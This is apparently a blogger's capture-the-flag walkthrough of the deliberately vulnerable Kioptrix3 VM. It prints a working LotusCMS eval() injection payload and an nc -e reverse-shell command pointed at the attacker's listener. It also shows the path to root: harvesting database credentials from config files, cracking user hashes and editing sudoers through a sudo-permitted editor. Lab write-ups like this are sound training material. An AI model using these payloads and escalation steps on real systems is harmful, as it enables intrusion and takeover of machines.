

`raw copy`
### Introduction
Kioptrix3 is a vulnerable linux  box .It is third in the Kioptrix Series but was my firt to attempt.The box tests several areas such as web and linux priviledge escaltion.You can download the box [here.](http://www.kioptrix.com/dlvm/KVM3.rar)

### Enumeration
To start of , we need to discover the machine from our network ,i will be using `netdiscover -i eth1 `.
 
Since i know the first two machines our kioptrix machine is the third one.

Next on will be to discover the open ports using `nmap`.

 
From our scan results , we can see port 22,80 are open and thus port 80 is our **most likely** way in.

 
The kioptrix3 machine is using dhcp and thus directs us to include its ip on our attackers box.With sudo power open the hosts file on `/etc/hosts` then include the machines ip and the name as `kioptrix3.com`
Now that we have our target site, we look for anything that can aid in compromising the site.From an overview of the site, we can deduce that there is a content management system `Lotuscms`.We can also learn that there should be a database since the picture in the gallery blog have upload dates.
Since i know nothing about this cms ,we'll have to look on how to find its version as wappalyzer doesn't seem to know too.
On searching for how to find the version,we find more intresting info from what we were looking for.The cms developers seem to have discontunued the project .It was in its third version which is said to have a remote code vulnerability from the way it handles the `eval()` function.
### The eval () function
You can learn more about the eval function [here](https://www.php.net/manual/en/function.eval.php)
### Exploit
The login page has a url `kioptrix3.com/index.php?system=Admin`.When we alter the last part of the url with a random string we get an error message indicating the use of the eval function.Once we test with `/index.php?page=index` we get directed to the landing page meaning the inputs are valid.
To exploit the RCE , we will send a request `kioptrix3.com/index.php?page=index` and capture it with BurpSuite(*you can use other proxies). 
.
Before we foward the request we need to change the request from `GET` to `POST` .

At this point you can send the request to the repeater to modify the data .To test if the site will execute our code we sent `page=index');${system(ls)};#` in our request.
From the response we are able to see contents of a directory listing which confirms that the site is vulnerable.

## Getting the Reverse shell
On our attack machine we set up the listener on port 4444:`nc -lvp 4444`. Back to  Burp,we edit the contents of the page request to establish a reverse connestion to our kali machine :`page=index');${system("nc -e /bin/bash 192.168.56.103 4444")};#`
After getting our reverse connection , we can use `python -c 'import pty; pty.spawn("/bin/bash")'` to get an interactive shell.

We can try to elevate our priviledges as we have gained our intial foothold.

### Escalating to root
In linux systems , one can gained root priveledges in a number of ways.Attackers may use SUID binaries,CronJobs,edit sudoers file and in some cases one might be lucky enough to find editable Shadow file.
Priviledge escalation might be vertical or horizontal. In that one might escalate straight to root or compromise another user in the system then escalate to root.
For this particular task I opted for the latter.
My hunt for other users started at the `/home` directory. In this directory we can deduce that the system has three users currently.

 

After wondering around the directories of the two users, I found some intresting file under the name `CompanyPolicy.README` which instructs new employees to use the command `sudo ht` when editing , creating or viewing files.A quick Google search on what the command might be indicates that `ht` is a file editor. You can learn more about ht [here](hte.sourceforge.net/readme.html)
Now that we have what seems like a piece of the puzzle , we need to look for other pieces.
Since the machine is hosting the site , we can try to look for config files and see if we are lucky enough to find password or such. 
`find / -name '*.php' | grep config`

On the kioptrix site we had a gallery page and looking at the config files we found there is a gallery config file.
The file contains some credentials which seem to be of the root user in phpmyadmin.*forgot to say the PhpmyAdmin page for this page is listable🙃*

Using the credentials we find we are able to access the gallery database where we find hashes of two developer accounts.

Using a decryptor we can get the password of both users and switch to the one we shall prefer.
I will be using `loneferret` because the other piece of the puzzle was under their account.
Using the editor we found out earlier we are able to access and edit the `shadow` and `sudoers` files.Through the `sudoers` file we can give anyone `sudo` permission.Some may prefer decrypting the hashes in the shadow file but i  choose editng the sudoers file.*it is faster 😀*

Now that we have sudo powers ,lets change the user to root.

From the root directory we have the flag for this challenge.You can find the it under the `Congrats.txt` file .

### Conclusion
The method used above was just one among many that can be used to compromis this said box.You can try out other methods for the initial access and the priviledge escalation too. As they say: "Google is your friend".If you get stuck try to search.

*Any comments and compliments about this piece are welcome*